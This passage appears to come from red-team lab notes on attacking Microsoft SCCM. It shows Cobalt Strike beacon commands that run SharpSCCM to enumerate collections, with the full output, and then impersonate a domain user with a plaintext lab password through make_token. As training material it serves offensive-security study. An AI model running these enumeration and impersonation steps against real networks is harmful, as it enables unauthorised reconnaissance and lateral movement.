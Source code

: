 This can really impact your view (as an attacker) of how SCCM is configured.  For example, if we enumerate all the collections as bfarmer, we can see that both DEV and CYBER exist as well as their member counts.
- **`DEV` member count : 6**
- **`CYBER` member count : 4**
```powershell
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
[*] Tasked beacon to run .NET program: SharpSCCM.exe get collections --no-banner
[+] host called home, sent: 1233202 bytes
[+] received output:

[+] Querying the local WMI repository for the current management point and site code

[+] received output:
[+] Connecting to \\127.0.0.1\root\CCM

[+] received output:
[+] Current management point: scm-1.cyberbotic.io
[+] Site code: S01
[+] Connecting to \\scm-1.cyberbotic.io\root\SMS\site_S01

[+] received output:
[+] Executing WQL query: SELECT CollectionID,CollectionType,IsBuiltIn,LastMemberChangeTime,LastRefreshTime,LimitToCollectionName,MemberClassName,MemberCount,Name FROM SMS_Collection  

[+] received output:
-----------------------------------
SMS_Collection
-----------------------------------

[+] received output:
CollectionID: S0100014
CollectionType: 2
IsBuiltIn: False
LastMemberChangeTime: 20230927154116.000000+***
LastRefreshTime: 20230927154116.000000+***
LimitToCollectionName: All Systems
MemberClassName: SMS_CM_RES_COLL_S0100014
MemberCount: 6
Name: DEV
-----------------------------------

[+] received output:
CollectionID: S0100015
CollectionType: 2
IsBuiltIn: False
LastMemberChangeTime: 20230927154102.000000+***
LastRefreshTime: 20230927154102.000000+***
LimitToCollectionName: All Systems
MemberClassName: SMS_CM_RES_COLL_S0100015
MemberCount: 4
Name: CYBER
-----------------------------------
[+] Completed execution in 00:00:03.1972949
```
However, if we run the same enumeration as jking, a member of DEV\Support Engineers, we only see the DEV collection.
making `DEV\jking` token
```powershell
beacon> make_token DEV\jking Qwerty123
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 37 bytes
[+] Impersonated DEV\jking (netonly)
```